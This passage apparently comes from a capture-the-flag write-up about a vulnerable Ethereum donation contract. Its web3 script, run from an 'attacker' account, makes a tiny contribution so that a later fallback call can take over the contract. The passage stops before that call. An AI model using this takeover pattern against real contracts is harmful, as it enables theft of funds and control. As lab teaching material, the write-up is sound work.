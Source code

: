 ![image](/assets/img/hackthebox/bitlab/unathorized.PNG)

let make our first step to calim the ownership make a small contribution and return to us the amount of our contribution.



``` javascript
async function execute(callback) { 
    // get attacker address
    let badBoy = web3.eth.accounts[1]
    console.log(`badBoy address: ${badBoy}`)

    let contract = await DonateContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    console.log(`Contract owner: ${contractOwner}`)


    // 1. Make a small contribution less than 0.001 ether
    await contract.contribute({
        from: badBoy,
        value: web3.toWei(0.0005, 'ether')
    })

    console.log('contribution has made........')

    // 2. get my contribution
    let contribBadBoy = await contract.getContribution({from: web3.eth.accounts[1]})

    
    console.log(`my contribution is ` + web3.fromWei(contribBadBoy.toNumber()), 'ether')
    
    callback()
}

module.exports = execute

```

![image](/assets/img/hackthebox/bitlab/contributeionmy.PNG)

now we are successfully contribute to the smart contract and now we are no longer our contribution is less than 0
so we have the condition we need to run fallback successfully and be owner of the contract lets do that.
